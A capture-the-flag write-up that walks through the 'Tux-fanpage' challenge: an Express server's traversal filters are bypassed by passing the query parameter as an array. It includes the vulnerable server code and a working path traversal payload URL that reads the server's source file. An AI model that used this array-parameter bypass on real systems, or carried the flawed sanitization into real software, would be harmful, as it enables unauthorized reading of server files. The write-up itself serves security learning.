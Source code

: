 ## Tux-fanpage :

The description of this challenge was : " My friend made a fanpage for Tux , can you steal the source code for me? " and the home page was presented like this :

![Capture](https://user-images.githubusercontent.com/59454895/85960368-567c0e80-b9a3-11ea-9c0e-7f4cf8068294.PNG)

The source code of the server is as follows:

const express = require('express')
const path = require('path')
const app = express()

//Don't forget to redact from published source
const flag = '[REDACTED]'

app.get('/', (req, res) => {
    res.redirect('/page?path=index.html')
})

app.get('/page', (req, res) => {

    let path = req.query.path

    //Handle queryless request
    if(!path || !strip(path)){
        res.redirect('/page?path=index.html')
        return
    }
    path = strip(path)

    path = preventTraversal(path)

    res.sendFile(prepare(path), (err) => {
        if(err){
            if (! res.headersSent) {
                try {
                    res.send(strip(req.query.path) + ' not found')
                } catch {
                    res.end()
                }
            }
        }
    })
})

//Prevent directory traversal attack
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}

//Get absolute path from relative path
function prepare(dir){
    return path.resolve('./public/' + dir)
}

//Strip leading characters
function strip(dir){
    const regex = /^[a-z0-9]$/im

    //Remove first character if not alphanumeric
    if(!regex.test(dir[0])){
        if(dir.length > 0){
            return strip(dir.slice(1))
        }
        return ''
    }

    return dir
}

app.listen(3000, () => {
    console.log('listening on 0.0.0.0:3000')
})
The qs package is used by express to parse the request params. This package can also accept arrays from the request params if they are passed as follows:

https://mysite.tld/route?param[]=1&param[]=2
This treats param as an array [1,2]. We can use this property to exploit this websie.

Upon analysis, we see that the page is the accepted from the query, hence passing something like ../index.js will give us the source code which has the flag. But here's the catch. There are 2 functions which prevent anything of this sort. First, the strip function removes characters from the start of the string until it matches the regex /^[a-z0-9]$/im. However, if the start of the string matches this regex, it will not check any further. This prevents us from having absolute paths like /etc/passwd or paths starting with ../ in the page param.

The second function which we need to bypass is the preventTraversal function, which recursively removes all instances of ../ from your string.

Now, let's analyze what happens if we pass an array as the page param.

First, we encounter the strip function.

const regex = /^[a-z0-9]$/im

//Remove first character if not alphanumeric
if(!regex.test(dir[0])){
    if(dir.length > 0){
        return strip(dir.slice(1))
    }
    return ''
}

return dir
This takes the parameter dir (which is page, basically), and matches the first index with the regex. However, since page and hence dir is now an array, it will just check the first element of the array. We want dir to be returned as is, so the first element of the array has to match that regex. Our payload so far is:

https://tux-fanpage.2020.redpwnc.tf/?page[]=a
We get back the same path from the strip function, so now we have to bypass the preventTraversal function.

path = strip(path) // returns same path if path[0]='a'

path = preventTraversal(path)
The preventTraversal function looks like:

function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}
In case dir is a string, it checks if the string has ../ in it, and removes every instance of it, recursively. Now, since dir is an array, dir.includes('../) will match only if an element of the array is exactly ../. So we are now free to do ../something, because that does not match ../ exactly. So, we can update our payload:

https://tux-fanpage.2020.redpwnc.tf/?page[]=a&page[]=../something
Now let's figure out what the something is going to be. So, the page is actually loaded in the following code snippet:

res.sendFile(prepare(path), (err) => {
    if(err){
        if (! res.headersSent) {
            try {
                res.send(strip(req.query.path) + ' not found')
            } catch {
                res.end()
            }
        }
    }
})
The path of the file is obtained using the prepare function, let's check that out.

function prepare(dir){
    return path.resolve('./public/' + dir)
}
Okay, so here's a problem. dir is an array, can we add an array to a string? Well, apparently you can, in javascript.

> 'hello'+[1,2,3]
"hello1,2,3"
So it just concatenates the comma separated array to the end of the string. That's really useful for this challenge! Now, we have to think of an array of dir so that path.resolve('./public/' + dir) returns ./index.html, keeping in mind the previous things we established.

> dir = ['a', '/../../index.js']
> './public/' + dir
"./public/a,/../../index.js"
When you pass this string to path.resolve(), it resolves it to ./index.js (It does not matter if the directory a, does not exist, path.resolve() does not care). Great! We've found our payload.

https://tux-fanpage.2020.redpwnc.tf/page?path[]=a&path[]=/../../index.js
This returns the source code. The flag is:

flag{tr4v3rsal_Tim3}
